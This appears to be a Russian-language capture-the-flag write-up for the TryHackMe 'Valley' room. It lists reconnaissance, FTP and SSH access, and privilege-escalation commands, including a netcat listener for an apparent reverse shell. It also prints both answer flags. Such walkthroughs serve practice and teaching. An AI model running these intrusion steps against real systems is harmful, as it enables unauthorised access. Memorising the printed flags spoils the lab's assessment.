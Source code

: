 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Valley](https://tryhackme.com/r/room/valleype) 

Всего 1 заданиe:
## Задание 1
Загрузите систему и найдите способ получить доступ вплоть до root!
### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sC -sV -p- <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 2>/dev/null
# http://<IP>/dev1243224123123/
# http://<IP>/dev1243224123123/dev.js
# siemDev:
ftp <IP> -p 37370
get siemHTTP2.pcapng -
cat index.html
# valleyDev:
ssh  valleyDev@<IP>
cat user.txt
```
```commandline
THM{k@l1_1n_th3_v@lley}
```
Что такое корневой флаг?
```commandline
sudo -l
cat /etc/crontab
cat /photos/script/photosEncrypt.py
./valleyAuthenticator
file valleyAuthenticator
strings valleyAuthenticator
nc -nvlp 1234
root.txt
```
```commandline
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)